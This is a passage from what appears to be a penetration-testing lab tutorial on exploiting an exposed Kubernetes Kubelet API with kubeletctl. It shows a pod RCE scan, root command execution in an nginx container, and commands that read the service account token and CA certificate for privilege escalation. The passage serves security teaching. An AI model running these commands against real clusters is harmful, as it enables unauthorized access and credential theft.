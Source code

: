 ┌─────────────────────────────────────────────────────────────────────────────────────────────────────┐
│                                   Node with pods vulnerable to RCE                                  │
├───┬──────────────┬────────────────────────────────────┬─────────────┬─────────────────────────┬─────┤
│   │ NODE IP      │ PODS                               │ NAMESPACE   │ CONTAINERS              │ RCE │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│   │              │                                    │             │                         │ RUN │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 1 │ 10.129.10.11 │ nginx                              │ default     │ nginx                   │ +   │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 2 │              │ etcd-steamcloud                    │ kube-system │ etcd                    │ -   │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
</code></pre>
<p>It is also possible for us to engage with a container interactively and gain insight into the extent of our privileges within it. This allows us to better understand our level of access and control over the container's contents.</p>
<h4>Kubelet API - Executing Commands</h4>
<pre><code class="language-shell-session">cry0l1t3@k8:~$ kubeletctl -i --server 10.129.10.11 exec "id" -p nginx -c nginx

uid=0(root) gid=0(root) groups=0(root)
</code></pre>
<p>The output of the command shows that the current user executing the <code>id</code> command inside the container has root privileges. This indicates that we have gained administrative access within the container, which could potentially lead to privilege escalation vulnerabilities. If we gain access to a container with root privileges, we can perform further actions on the host system or other containers.</p>
<hr/>
<h2>Privilege Escalation</h2>
<p>To gain higher privileges and access the host system, we can utilize a tool called <a href="https://github.com/cyberark/kubeletctl">kubeletctl</a> to obtain the Kubernetes service account's <code>token</code> and <code>certificate</code> (<code>ca.crt</code>) from the server. To do this, we must provide the server's IP address, namespace, and target pod. In case we get this token and certificate, we can elevate our privileges even more, move horizontally throughout the cluster, or gain access to additional pods and resources.</p>
<h4>Kubelet API - Extracting Tokens</h4>
<pre><code class="language-shell-session">cry0l1t3@k8:~$ kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token

eyJhbGciOiJSUzI1NiIsImtpZC...SNIP...UfT3OKQH6Sdw
</code></pre>
<h4>Kubelet API - Extracting Certificates</h4>
<pre><code class="language-shell-session">cry0l1t3@k8:~$ kubeletctl --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt
